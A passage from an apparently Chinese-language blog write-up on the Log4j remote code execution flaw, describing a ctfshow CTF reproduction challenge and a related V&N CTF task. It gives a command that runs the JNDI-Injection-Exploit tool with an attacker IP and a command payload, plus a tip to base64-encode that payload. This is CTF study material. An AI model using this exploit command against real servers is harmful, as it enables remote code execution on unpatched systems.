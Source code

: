 然后就不必多说了，直接执行，遍地开花

![image-20211210223411156](log4jrce/image-20211210223411156.png)

---

## 0x03 题目

在12月10日晚间 [ctfshow](https://ctf.show/challenges#Log4j%E5%A4%8D%E7%8E%B0-1730)也上线了该漏洞的复现，利用思路如上，直接拿编译好的jar文件打

```sh
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A [ip] -C "[payload]"
```

记得payload最好base64编码一下，以免出错。

其实在今年早些时候V&Nctf有道题也是`JNDI-Injection-Exploit`

[V&N ctf realezjvav](https://err0r.top/article/VN2021ctf/?highlight=realezjvav)

> 不能说极其相似，只能说一摸一样，今年上半年都有ctf题目了
>
> 一个没被重视的洞，甚至没有CVE编号，终究还是扩大到了堪比永恒之蓝的范围...

我发现我服务器上竟然还有源码，直接打就行了

![image-20211210224236428](log4jrce/image-20211210224236428.png)
